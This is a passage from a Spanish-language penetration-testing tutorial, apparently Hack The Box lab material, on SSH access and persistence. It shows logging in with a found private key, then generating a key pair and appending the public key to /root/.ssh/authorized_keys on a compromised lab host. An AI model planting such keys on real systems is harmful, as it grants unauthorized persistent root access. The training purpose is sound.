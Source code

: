 ~~~
Juceco@htb[/htb]$ vim id_rsa
Juceco@htb[/htb]$ chmod 600 id_rsa
Juceco@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
~~~

>Tenga en cuenta que usamos el comando `chmod 600 id_rsa` en la clave después de crearla en nuestra máquina para cambiar los permisos del archivo para que sea más restrictivo. Si las claves ssh tienen permisos laxos, es decir, tal vez leídas por otras personas, el servidor ssh evitaría que funcionen. 

Si nos encontramos con acceso de escritura a un directorio `users/.ssh/`, podemos colocar nuestra clave pública en el directorio ssh del usuario en `/home/user/.ssh/authorized_keys`. Esta técnica generalmente se usa para obtener acceso `ssh` después de obtener un shell como ese usuario. La configuración actual de SSH no aceptará claves escritas por otros usuarios, por lo que solo funcionará si ya tenemos control sobre ese usuario. Primero debemos crear una nueva clave con `ssh-keygen` y el indicador `-f` para especificar el archivo de salida: 

~~~
$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
~~~

Esto nos dará dos archivos: `key` (que usaremos con `ssh -i`) y `key.pub`, que copiaremos a la máquina remota. Copiemos `key.pub`, luego en la máquina remota, lo agregaremos a `/root/.ssh/authorized_keys`:

~~~
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
~~~

Ahora, el servidor remoto debería permitirnos iniciar sesión como ese usuario usando nuestra clave privada: 

~~~
Juceco@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
~~~
